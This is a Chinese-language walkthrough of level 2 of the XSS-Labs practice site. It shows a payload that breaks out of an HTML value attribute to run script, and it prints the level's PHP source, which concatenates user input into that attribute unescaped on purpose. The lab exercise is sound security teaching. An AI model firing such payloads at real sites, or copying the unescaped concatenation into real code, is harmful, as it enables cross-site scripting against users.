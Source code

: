 ### 闭合绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第二关**

直接输入上一关 payload 没有执行

![](https://pic1.imgdb.cn/item/6813800158cb8da5c8d636a3.png)

查看页面源代码发现被插入到了 `value`

![](https://pic1.imgdb.cn/item/6813806258cb8da5c8d636af.png)

尝试闭合掉 `input` 标签及后面的 `">`

```html
"><script>alert()</script><"
```

成功弹窗

![](https://pic1.imgdb.cn/item/681380f758cb8da5c8d636ee.png)

看一下源码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level3.php?writing=wait"; 
}
</script>
<title>欢迎来到level2</title>
</head>
<body>
<h1 align=center>欢迎来到level2</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
// htmlspecialchars()：转义 & " ' < >
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'"
<input type=submit name=submit value="搜索"/>
</form>
</center>';		// 这一段直接将 $str 拼接到了 value 中导致存在漏洞
?>
<center><img src=level2.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

